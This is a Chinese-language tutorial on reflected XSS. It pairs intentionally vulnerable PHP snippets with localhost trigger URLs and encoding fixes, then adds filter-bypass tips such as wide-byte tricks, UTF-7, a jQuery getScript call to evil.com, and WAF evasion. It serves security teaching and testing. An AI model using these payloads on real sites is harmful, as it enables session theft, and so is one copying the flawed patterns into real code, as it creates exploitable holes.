



## 一、什么是跨站脚本漏洞
跨站脚本漏洞（Cross Site Scripting，常简写作XSS）是Web应用程序在将数据输出到网页的时候存在问题，导致攻击者可以将构造的恶意数据显示在页面的漏洞。跟大多数Web 漏洞一样，此类漏洞的产生的原因也是没有处理好用户的输入。根据类型的不同，可以分为反射型 XSS，存储型 XSS，DOM 型 XSS，这篇先来讲讲反射型 XSS。  
跨站脚本攻击注入的恶意代码运行在浏览器中，所以对用户的危害是巨大的——也需要看特定的场景：跨站脚本漏洞存在于一个无人访问的小站几乎毫无价值，但对于拥有大量用户的站点来说却是致命的。最典型的场景是，黑客可以利用跨站脚本漏洞盗取用户Cookie而得到用户在该站点的身份权限。它会造成的影响绝不仅仅是弹个框这么简单，在漏洞验证中安全测试人员倾向于弹框以证明可以执行 js 表明存在漏洞，只是因为这种行为是无害的，是 poc 而非 exp。  

## 二、常见的缺陷代码
1. 什么都没过滤，直接输出到html    
``` php
 <?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
}
$name = $_GET['name'];
echo "Hello $name";
?>
```
触发：firefox `http://localhost/test/reflection_xss/xss_simple_html.php?name=%3cscript%3Ealert(11)%3C/script%3E`  
修复：在html标签中输出（使用htmlEncode）    
2. 过滤script、alert关键字  
```  php
<?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
}
$name = $_GET["name"];
if (preg_match('/script|alert/i', $name)) {
    die("no script enable!");
}
echo $name;
?>
```
触发：firefox `http://localhost/test/reflection_xss/xss_remove_script.php?name=%3Cimg%20src=0%20onerror=prompt(1)%3E`   
修复：在html标签中输出（使用htmlEncode）   
3. 输出到js，默认只编码双引号  
``` php
 <?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
}
$name= $_GET["name"];
?>
<script>
	var a= '<?php  echo htmlentities($name); ?>';
</script>
```
触发：firefox `http://localhost/test/reflection_xss/xss_script_singlequote.php?name=aa%27;alert(11);//`  
修复：在script标签中输出（使用javascriptEncode）  
4. 输出到 js，未做任何过滤  
``` php
<?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
}
$name = $_GET["name"];
?>
<script>
	var $a= "<?php  echo $name; ?>";
</script>
```
触发：firefox `http://localhost/test/reflection_xss/xss_script_doublequote.php?name=aa%22;alert(1);//`  
场景：  
``` javascript
var  s1mba="http://ke.qq.com/cgi-bin/courseDetail?course_id=109431"+alert(903606738);
var pg_CartoonDetail = new BIU.Page({
name: 'pg_CartoonDetail',
...,
current: '123'-alert(1)-'',
...});
```
修复：在script标签中输出（使用javascriptEncode）  
5. 输出到js，`\` 转义，返回charset 是 gbk  
``` php
<?php
    $var = str_replace('"', '\\"', $_GET['var']); # addslashes
?>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
<script>
    var b = "<?php echo $var;?>";
</script>
</head>
</html>
```
触发： firefox 页面编码设置为gbk `http://localhost/test/reflection_xss/xss_script_gbk.php?var=aa%ae%22;alert(11);//`   
修复：在script标签中输出（使用javascriptEncode），但此处不要用`\` 转义的方式，可以用unicode等方式  
6. jsoncallback 接口，返回没有过滤，且content-type 为 text/html  
``` php
<?php
if (isset($_GET['q'])) {
  $q = $_GET['q'];
  $arr = array(
     'a'=>'b',
     'c'=>'d',
  );
  echo $q."({".json_encode($arr)."})";
    
  }else{
    header("location:?q=test");
}
?>
```
触发： firefox `http://localhost/test/reflection_xss/xss_in_jsoncallback.php?q=%3Cscript%3Ealert(11)%3C/script%3E`  
修复：对于传入的callback参数，使用 htmlspecialchars 编码，或者把返回content-type 定为 `application/json`，注意 `text/plain` 在某些浏览器上不可靠，同时添加X-Content-Type-Options: nosniff头    
注意：添加X-Content-Type-Options: nosniff头前，请确认站点下所有接口已设置了与内容相符的Content-type     
7. 输出到标签属性，没有过滤单引号（双引号，没有引号同理）  
``` php
<?php

 if (isset($_GET['q'])) {
    $q = $_GET['q'];
    $q = preg_replace('/[\<\>]/i', '', $q);
    echo "<input type='text' value='".$q."'>";
   }else{
    header("location:?q=test");
}
?>
```
触发：firefox `http://localhost/test/reflection_xss/xss_in_htmlattr_singlequote.php?q=aa%27%20onmouseover=prompt(111)%20bad=%27`  
修复： 这里过滤了< >，但我们还是可以闭合属性引号进而重设一个属性，故需要 htmlspecialchars 编码下  
8. 输出到html 事件中，有多种过滤情形  
``` php
<?php
  if (! isset($_GET['a'])) {
    header('Location: index.php?a=world');
    exit();
}
?>

  <html>
<?php
    $a = htmlspecialchars($_GET['a'], ENT_QUOTES);
    $b = str_replace("'","\\x27",$_GET['b']);
    $b = str_replace('"','\\x22',$b);
    //$b = str_replace("'","&apos;",$_GET['b']);
    $c = htmlspecialchars($_GET['c']);
    $d = htmlspecialchars($_GET['d'], ENT_QUOTES);
    //$e = htmlspecialchars($_GET['e']);
?>

  <body>
  <input id="a" type="text" value="please input" onfocus="if(value == 'please input'){value='<?php echo $a;?>'}"/>
  <input id="b" type="text" value="please input" onfocus="if(value == 'please input'){value='<?php echo $b;?>'}"/>
  <input id="c" type="text" value="please input" onfocus="if(value == 'please input'){value='<?php echo $c;?>'}"/>
  <input id="d" type="text" value="please input" onfocus="if(value == 'please input'){var a=<?php echo $d;?>;value=a;}"/>
  <!-- <input id="e" type="text" value="please input" onfocus='if(value == "please input"){value="<?php echo $e;?>"}'/> -->

  </body>
  </html>
```
触发：firefox  
`http://localhost/test/reflection_xss/xss_in_html_event.php?a=%27;alert(11);}//`  
`http://localhost/test/reflection_xss/xss_in_html_event.php?a=aaa&b=%26%2339;;alert(11);}//`  
`http://localhost/test/reflection_xss/xss_in_html_event.php?a=aaa&b=bbb&c=%27;alert(111);}//`  
`http://localhost/test/reflection_xss/xss_in_html_event.php?a=aaa&b=bbb&c=ccc&d=123;%0D%0Aalert()`  
修复：参数出现的地方浏览器会先进行 htmldecode，再进行jsdecode。如前所述，这里进行jsencode 即可，但不能用`\`转义的方式，可以是 unicode 或者 `\xXX` 方式， 假设用户输入 `'`，则编码为 `\u0027`，不会触发；假设用户输入 `&#39;`，则编码为`\u0026\u0023\u0033\u0039\u003b`，不会触发。  
9. urldecode, htmldecode, base64decode  
``` php
<?php
if (! isset($_GET['end'])) {
    exit();
}
?>

  <?php
  $start = urldecode($_GET['start']);
  $end = htmlspecialchars_decode($_GET['end']);
  #$end = $_GET['end'];
  $b4 = htmlspecialchars($_GET['b4'], ENT_QUOTES);
  ?>

    <html><head>
     <!-- <meta http-equiv="Content-Type" content="text/html; charset=GBK"> --> 
     </head>
   <body>
    <p>aaaaaaa</p>
  <?php echo "ccccc".$start; ?>
  <?php echo "bbbbb".$end; ?>
  <?php echo base64_decode($b4); ?>
  </body>
   </html>
```
触发：firefox  
`http://localhost/test/reflection_xss/xss_htmlurlb4_decode.php?start=%253Cscript%253Ealert%252811%2529%253C%252fscript%253E&end=abds&b4`  
`http://localhost/test/reflection_xss/xss_htmlurlb4_decode.php?start=aa&end=%26lt%3Bscript%26gt%3Balert%2811%29%26lt%3B%2fscript%26gt%3B&b4`  
`http://localhost/test/reflection_xss/xss_htmlurlb4_decode.php?start=aa&end=bb&b4=PHNjcmlwdD5hbGVydCgnYWN1bmV0aXgteHNzLXRlc3QnKTwvc2NyaXB0Pgo=`  
修复：这个例子是跟具体业务比较相关的，比如无论是哪种 decode 操作后，经过中间流程的操作，输出到页面时都需要进行 htmlencode  
10. 输出在标签的href 属性中    
``` php
 <?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=');
    exit();
}
$name = $_GET["name"];
?>
    <a href="<?php echo htmlspecialchars($name,ENT_QUOTES) ?>">button</a>
```
触发： firefox `http://localhost/test/reflection_xss/xss_in_htmlattr_href_1.php?name=javascript:alert(1)`  
修复：一般来说，如果变量是完整的url，应该先检查下是否以^http开头，且目的域名是允许的域名列表内，以保证不会出现伪协议类的XSS攻击。接着使用 htmlspecialchars 编码下；或者因为此处是地址栏，可以用 urlencode 编码变量。这里的payload 变形可以有很多，故检查的正则需要很严格，payload 列举如下，
```
	javascript:alert(document.cookie).qq.com 
	javaScript://www.qq.com/%0aalert(document.cookie)
	javascript:alert(1)-html
	javascript:alert(1)//.qq.com
```  
如果以上 payload 出现在 src/href/on*/ 等属性内，则必须出现在属性值的开头才能触发。  
11. utf-7 xss  
UTF-7 (7-位元 Unicode 转换格式) 是一种可变长度字元编码方式，用以将 Unicode 字元以 ASCII 编码的字元串来呈现，可以应用在电子邮件传输之类的应用。举个例子：`<script>alert(document.cookie)</script>`  编码后就成了
`+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-`。 当<meta>标签没有指定明确的charset，而且返回内容的头几个字符是`+/v8`（utf7 bom）时，浏览器将以utf-7编码解析，从而形成XSS。  
  
12. ie mime sniffer导致xss  
IE有一个特性，那就是在将一个文件展示给用户之前会首先检查文件的类型，也就是MIME sniffing 功能。引入MIME sniffing功能的初衷是用来弥补Web服务器响应一个请求时有可能返回错误的内容类型信息这一缺陷。但是这个点可以被攻击者利用导致一些安全漏洞。这个问题可以和问题6 结合起来理解。  
当直接访问 `https://aaa.bbb.weixin.qq.com/oauth2/access_token?grant_type=client_credential&client_id=11111111111'<script>alert(0)<script>&client_secret=APPSECRETabout:cehome`
因为content-type被设置为application/json会提示下载，但是当访问  
`https://aaa.bbb.weixin.qq.com/oauth2/access_token;.html?grant_type=client_credential&client_id=11111111111'<script>alert(0)</script>&client_secret=APPSECRETabout:cehome`
时因为后面加了`;.html`，ie以MIME sniffing功能把返回的内容当html解析导致xss。  
  
13. 浏览器特性导致标签闭合  
``` php
<?php
if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
}
$name = $_GET['name'];
$name = preg_replace("/<.*>/", "", $name);
echo "<div> hello $name</div>";
?>
```
当输入完整标签时会被过滤掉，但访问 `http://localhost/test/reflection_xss/xss_browser_tag.php?name=%3Cimg%20sRc=%27aa%27%20onError=alert(11111)%20c=/`  
返回内容为 `<div> hello `，浏览器会把 div 的结束标签当作 img 的结束标签，导致onerror 触发。  
14. 业务特性 case  
1). 直接在 Url 后面拼接 &simbatestget**payload**，因为没加等号，业务不会把这段当作keyvalue 来处理，可能直接拼接在某个变量后面，导致xss。  
``` php
 <?php
  if (! isset($_GET['name'])) {
    header('Location: index.php?name=world');
    exit();
  }

  $query_string = "";
  foreach ($_GET as $varname => $varvalue) {
        if ($query_string != '')
        {
                $query_string .= "&";
        }
        $query_string .= $varname . "=" . htmlspecialchars($varvalue, ENT_QUOTES);
  }

  ?>
<script>
        var aa = "<?php echo $query_string?>";
</script>
```
触发：`http://localhost/test/reflection_xss/xss_script_encode_value.php?name=test&TESTSIMBA%22%3Balert(902237484)%3B%2F%2Ftst`  
修复：直接对需要输出的整串参数做javascriptEncode。  
2). 当原来请求是get 时，将 payload 接在get 参数后面，但使用 post 方式去请求（随便添加一个post参数如 simbatestpost=3），有些业务对 post请求直接没有防御，导致xss。  
``` php
<?php
  $name = $_REQUEST["name"];
?>

 <script>
        var aa = "<?php if ($_SERVER['REQUEST_METHOD'] == 'POST')   
				echo $name; else echo htmlspecialchars($name, ENT_QUOTES);?>";
</script>
```
触发：POST `http://localhost/test/reflection_xss/xss_script_nodefense_post.php?name=test%22%3Balert(906539215)%3B%2F%2Ftst`  body:simbatestxsspost=3  
修复：无论什么样的请求方式， 都需要做javascriptEncode 后输出。  


## 三、测试tips分享  
1. 测试时不止要测试正常的 < > " 是否编码转义，也要测试   &#38;quot; &#38;gt; &#38;lt; 之类是否会被反转回来，可以 console 观察下是否引起浏览器脚本执行错误。测试是否可以利用页面引入的 jQuery 来进行 xss 利用如 ";$.getScript &#96;http://evil.com/test.js` ;//  
2. 测试是否根据关键字来过滤，在使用一些正则过滤特征字符串时，往往会指定匹配的递归次数，在满足长度条件的情况下，我们可以提交重复 n 次的 poc，以绕过过滤逻辑。  
3. 测试特殊字符  
宽字节：html charset=gbk 类型下，插入 `%c0%22`，如果业务插入 `\` 成为 `%c0\"`， 这样导致 `%c0\` 成为一个乱码字符，从而闭合引号。  
换行符（相当于空格）：如果输入会在业务代码的注释里，可以插入 `bbbb%oaalert(1);//`  这样会另起一行，成功执行弹框。  
反斜杠：插入反斜杠导致业务代码引号闭合失败，而且还有 js 续行的作用。  
综合案例：  
  
业务代码会把输入的 `\` 转换成 `\\`，对于`var searchOrder` 那一行来说， 我们输入 `aaaa%c0\%0a` 变成 `aaaa%c0\\%0a`，由于 charset 是 gbk，那么 `%c0\` 是一个乱码字符，而 剩下的一个 `\` 起了续行作用，那么 `var searchOrder` 引号内的就被当作一个完整字符串，而不会引起语法错误，这样 就能执行注释被换行后的代码。  
4. 如果站点布有waf，或许有负载均衡问题，同时发多个包，可能存在放过的情形。  
5. 从自动化检测角度来看，可以在参数中带入payload，然后检测页面中特定标签特定属性内是否含匹配的未编码字符，比如 `<script>aaa</script>` or `<a href=bbb onmouseover=ccc>`，获取 script tag 的内容 or 获取 a tag href/onmouserover attr 的 内容是否match/equal。去误报逻辑：且从文本开头到匹配字段中的字符中单双引号都是成双出现，左括号括号数量比右括号数据多。  


## Reference
[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)